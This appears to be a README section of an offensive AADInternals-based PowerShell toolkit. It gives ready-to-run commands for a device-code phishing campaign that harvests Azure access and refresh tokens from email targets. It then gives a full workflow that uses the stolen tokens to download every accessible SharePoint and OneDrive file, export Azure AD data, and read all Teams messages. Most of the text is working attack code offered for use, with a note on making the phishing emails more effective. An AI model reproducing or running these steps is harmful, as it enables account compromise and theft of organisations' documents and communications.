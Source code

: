 Consult the functions' documentation for usage examples.

### Generate some listener for a phishing campaign

Install PowerShell 7 to be able to use the `-Parallel` flag:
`winget install --id Microsoft.Powershell --source winget`.

Launch 3 privileged tokens listener (in a PowerShell 7 prompt):
```powershell
## See Get-AccessTokenForAzureCoreManagement
1..3 | ForEach-Object -Parallel { Import-Module .\AADInternals -Force; Get-AADIntAccessToken -Resource "https://management.core.windows.net/" -ClientId "d3590ed6-52b3-4102-aeff-aad2292ab01c" -UseDeviceCode $true -IncludeRefreshToken $true }
```

Then send a phishing email to the target with the given code. You'll receive the access and refresh tokens as soon as any target gives you access. The command returns when you get the token from all the targets or when the timer exceeds.

**TODO** : the device code is expired after 15 minutes. Create a button in the mail to renew the device code (send a new mail with the new one).

### Full workflow for extracting shared documents and messages

```powershell
Import-Module .\AADInternals -Force

# get a privileged token to be able to access other services
Get-AADIntAccessTokenForAzureCoreManagement -SaveToCache -UseDeviceCode
# get a token for the graph API using the privileged token
Get-AADIntAccessTokenFromCacheRefreshToken -Resource "https://management.core.windows.net/" -ClientId "d3590ed6-52b3-4102-aeff-aad2292ab01c" -NewResource "https://graph.microsoft.com" -SaveToCache 
# set the access token parameter
$AccessToken = Get-AADIntAccessTokenFromCache -Resource "https://graph.microsoft.com" -ClientId "d3590ed6-52b3-4102-aeff-aad2292ab01c"

# get all the groups files' download URLs (shared documents in any channels)
# The items returned by Get-MSGraphPersonalDriveItemsContent don't appear.
$data = Get-AADIntMSGraphGroupsDriveItemsContent -AccessToken $AccessToken
$data.'@microsoft.graph.downloadUrl'

# get all the current user files' download URLs
$data = Get-AADIntMSGraphPersonalDriveItemsContent -AccessToken $AccessToken
$data.'@microsoft.graph.downloadUrl'

# download all the accessible files in .\Files\
Get-AADIntMSGraphFiles -AccessToken $AccessToken -Destination .\Files\

# export all the accessible data in .\Files\
Export-AADIntAzureADToCSV -AccessToken $AccessToken -Directory .\Files\

# get a token for the skype API using the privileged token
Get-AADIntAccessTokenFromCacheRefreshToken -Resource "https://management.core.windows.net/" -ClientId "d3590ed6-52b3-4102-aeff-aad2292ab01c" -NewResource "https://api.spaces.skype.com" -SaveToCache
# set the access token parameter
$AccessToken = Get-AADIntAccessTokenFromCache -Resource "https://api.spaces.skype.com" -ClientId "d3590ed6-52b3-4102-aeff-aad2292ab01c"

# get all the teams messages
Get-AADIntTeamsMessages -AccessToken $AccessToken
```

